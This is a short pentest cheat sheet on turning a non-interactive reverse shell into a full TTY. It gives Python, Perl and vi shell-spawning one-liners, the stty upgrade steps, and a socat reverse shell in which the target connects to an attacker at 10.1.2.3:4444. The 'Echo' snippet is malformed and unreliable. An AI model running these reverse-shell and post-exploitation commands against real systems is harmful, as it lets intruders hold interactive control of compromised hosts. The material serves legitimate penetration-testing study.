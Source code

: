 # Spawning shells



## Non-interactive tty-shell

If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do. 

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:



**Using python**

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

**Echo**

```
echo 'os.system('/bin/bash')'
```

**sh**

```
/bin/sh -i
```

**bash**

```
/bin/bash -i
```

**Perl**

```
perl -e 'exec "/bin/sh";'
```

**From within VI**

```
:!bash
```

## Interactive tty-shell

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

_old ref: https://github.com/cornerpirate/socat-shell_

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

**python**
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

**sockat**
```bash
# attacker (listen):
socat file:$(tty),raw,echo=0 tcp-listen:4444  

# target (connect):
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.1.2.3:4444
```

**stty**
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ export TERM=xterm-256color

# optionally, if you have troubles using term, you can reset it completely and set it again
# to get information about the TERM
$ echo $TERM
xterm-256color
$ stty -a
speed 38400 baud; rows 24; columns 80; line=0;
intr=\^C; ...
...
# you need previous information to set new term
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```


## References:

http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password
http://netsec.ws/?p=337
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
